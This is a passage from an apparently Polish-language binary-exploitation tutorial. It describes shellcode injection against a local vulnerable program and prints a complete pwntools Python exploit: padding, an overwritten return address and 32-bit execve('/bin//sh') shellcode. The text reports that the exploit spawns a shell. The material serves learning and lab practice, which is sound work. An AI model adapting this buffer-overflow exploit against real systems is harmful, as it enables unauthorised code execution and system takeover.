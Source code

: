 Plik skompilowany w taki sposób jesteśmy w stanie exploitować za pomocą takiego samego ataku jak w `NX bit`, czyli `shellcode injection` lub `ret2libc`. Poniżej znajduje się kod exploita opierającego się na ataku shellcode injection.

```python
#!/usr/bin/env python3

from pwn import *

p = process('./vuln-1.o')

padding = b"AAAABBBBCCCCDDDDEEEEFFFFGGGG"

buf_addres = 0xffffd1c0

eip = buf_addres + len(padding) + 4

shellcode = """ 
    xor ecx, ecx
    mul ecx
    push ecx
    push 0x68732f2f
    push 0x6e69622f
    mov ebx, esp
    mov al, 11
    int 0x80
 """

send = padding + p32(eip) + asm(shellcode)

p.sendline(send)

p.interactive()
```

W wyniku działania powyższego exploitu dostajemy shella.


![](pictures/1_shell.png)
